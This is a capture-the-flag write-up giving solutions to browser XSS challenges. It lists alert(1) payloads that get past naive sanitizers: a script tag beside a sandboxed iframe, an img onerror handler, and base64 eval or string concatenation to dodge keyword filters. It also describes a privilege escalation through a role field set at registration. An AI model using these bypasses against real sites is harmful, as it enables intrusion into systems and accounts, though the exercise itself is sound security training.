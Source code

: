 # CTF-CodeInTheDark
Interlogica CTF Code in the dark:
[https://ctf.codeinthedark.dev/challenges](https://ctf.codeinthedark.dev/challenges)

## 1 

Trigger an alert(1) in the small browser by evading the sanitizer's countermeasures. NOTE: the alert must be triggerable offline and without any further actions by the user.
The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // warmup
    return input;
}
```

Hints:  
Browser says `An iframe which has both allow-scripts and allow-same-origin for its sandbox attribute can escape its sandboxing.`.


Solution:
```
<iframe src="http%3A//hithere" 
        scrolling="no" sandbox="allow-scripts allow-popups allow-modals allow-same-origin" 
        name="sandbox" style="width: 100%; height: 100%; border: 0px;"></iframe>
<script>
   alert(1);
</script>
```

## 2

The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // no scripts!
    if (input.toLowerCase().includes('script')) {
        return 'NO!';
    }
    return input;
}
```

Solution:
```
<img src="" onerror=alert(1)>
```

Thanks M9k!

## 3
Just call the function from console.

## 4
Register. Password of moderator is in the user profile image. Get sources as moderator. Sources show that registratin take role too. Register as admin. As admin go to admin page and see flag.


## 5

The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // no alert!
    if (input.toLowerCase().includes('alert')) {
        return 'NO!';
    }
    return input;
}
```

Solution:
```
<iframe src="" 
        scrolling="no" sandbox="allow-scripts allow-popups allow-modals allow-same-origin" 
        name="sandbox" style="width: 100%; height: 100%; border: 0px;"></iframe>

<script>
console.log("hi");
eval(atob('YWxlcnQoMSk7'));
</script>
```

Where `YWxlcnQoMSk7` is `alert(1);`.  
  
Or you can use `eval("al"+"ert(1)")`, thanks pal!

